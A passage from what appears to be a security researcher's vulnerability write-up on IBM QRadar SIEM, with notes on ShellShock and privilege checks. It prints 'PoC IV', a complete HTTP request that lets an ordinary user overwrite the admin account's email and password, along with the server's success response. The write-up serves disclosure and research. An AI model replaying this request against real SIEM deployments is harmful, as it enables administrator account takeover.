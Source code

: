 And another ‘lo and behold' as Wireshark registers pings coming into my system from the SIEM! Just a reminder: all services under the SIEM are running at ‘root'. It is important to notice that in the new system which we have checked 'ShellShock' had been patched and this does not exist.

#### Privilege Escalation

Next step was to see if users' privileges are being regulated properly. Another user was created as an ordinary user which should be restricted. An attempt to alter other users' privileges or details failed. The SIEM had verified the privileges of the user and blocked the attempt. However, there was another form at the top of the toolbar to edit the user that was created. That form did not go through the entire ordeal of verifying the user's privileges as it was only supposed to change the user which it was on. The issue is that the system did not verify that by the cookies and authentication that was done but rather through the details in the form itself.

**PoC IV - Privilege Escalation via Authenticated User**

```json
POST /console/JSON-RPC/QRadar.saveUserPreferences HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://192.168.1.1/console/qradar/jsp/QRadar.jsp
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 391
Cookie: JSESSIONID=72[trimmed]EC; SEC=32[trimmed]94
Connection: close

{method:"QRadar.saveUserPreferences",params:{"userJSON":{"id":"1","username":"admin","email":"my_personal_email@morirt.com","description":"","password":"123546","passwordConfirm":"123456","roleId":null,"spId":null,"validationErrors":{},"roleName":"","securityProfileName":"","locale":"en","timezone":null,"DISPLAY_NOTIFICATION_POPUPS":true}},sessionId:"32[trimmed]94",id:"875"}
```

And the answer was 'why not...'.

```json
HTTP/1.1 200 OK
Date: Wed, 28 Jun 2017 09:16:07 GMT
Pragma: no-cache
Cache-Control: must-revalidate
Cache-Control: no-cache
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Content-Type: UTF-8;charset=UTF-8
Connection: close
Content-Length: 124

{"id":"875","result":{"message":null,"id":null,"success":true,"validationErrors":null,"serializedObject":null},"error":null}

```

#### Default Page
